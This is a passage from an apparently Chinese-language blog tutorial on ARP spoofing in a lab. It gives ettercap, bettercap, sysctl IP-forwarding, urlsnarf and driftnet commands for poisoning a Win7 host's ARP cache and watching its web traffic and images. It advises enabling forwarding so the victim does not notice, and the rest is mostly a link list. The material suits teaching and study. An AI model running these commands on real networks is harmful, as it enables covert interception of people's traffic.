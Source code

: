 再次查看 arp 缓存表：

![][46]

发现原来网关的 mac 地址变得和 kali 的一样了，那么我们向网关发送的所有流量都会流经 kali，而 kali 也同时欺骗着网关自己是 win7，这样 win7 能正常上网但它不知道所有流量都被窥视了。

但在这里建议把 Linux 内核的流量转发功能开启，不然可能导致对方上不了网，引起对方的警觉：

```
sysctl net.ipv4.ip_forward
sysctl -w net.ipv4.ip_forward=1
```

![][47]

### ettercap

前面已经介绍过详细使用方法，此处直接给出命令：

```
ettercap -i eth0 -TqM ARP /192.168.1.106// ///
```

![][48]

和上面起到的是一样的效果

### bettercap

同样我们使用`bettercap`命令进入，执行以下命令：

```
net.sniff on
set arp.spoof.targets 192.168.1.106
(设定只针对一个或多个目标，不设置则针对整个网段开始欺骗)
arp.spoof on
```

此时就开始了 arp 欺骗，如果此时我们用 wireshark 等抓包工具去抓的话，会发现只抓得到 tcp 数据包，没有 http/https 的数据包，可以通过命令`http.proxy on`或者`https.proxy on`开启 http/https 代理

如果想开个窗口监视 http 的网页浏览，可以使用 `urlsnarf -i eth0` 命令(urlsnarf 命令需用在 arp 欺骗之后)：

![][49]

Driftnet 可用于过滤嗅探图片，利用 driftnet 进行流量监控，显示被害者浏览的图片：`driftnet -i eth0`：

![][50]

而 driftnet 和 arpspoof 都属于 Dsniff 工具套件

[1]: https://www.freebuf.com/column/179597.html
[2]: https://www.freebuf.com/articles/network/183692.html
[3]: https://www.freebuf.com/company-information/194558.html
[4]: https://blog.csdn.net/zpy1998zpy/article/details/81038016
[5]: https://www.freebuf.com/column/174713.html
[6]: https://www.freebuf.com/articles/web/190947.html
[7]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_105813.png
[8]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_131910.png
[9]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_110038.png
[10]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_132223.png
[11]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_132555.png
[12]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_110341.png
[13]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_110529.png
[14]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_133129.png
[15]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_133247.png
[16]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_133405.png
[17]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_134745.png
[18]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_110721.png
[19]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_111143.png
[20]: https://github.com/thelinuxchoice/blackeye
[21]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_142229.png
[22]: https://www.freebuf.com/sectool/99607.html
[23]: https://www.freebuf.com/articles/network/183692.html
[24]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_111546.png
[25]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_111737.png
[26]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_144520.png
[27]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_145243.png
[28]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_112144.png
[29]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_112221.png
[30]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_112611.png
[31]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_114106.png
[32]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_114354.png
[33]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_172938.png
[34]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_114826.png
[35]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_115036.png
[36]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_120727.png
[37]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_121150.png
[38]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_095058.png
[39]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_121350.png
[40]: https://www.winpcap.org/install/
[41]: https://nmap.org/npcap/dist/npcap-0.99-r9.exe
[42]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190217_173819.png
[43]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190217_174017.png
[44]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_121540.png
[45]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_121848.png
[46]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_121930.png
[47]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_103057.png
[48]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_125447.png
[49]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_140746.png
[50]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_140552.png
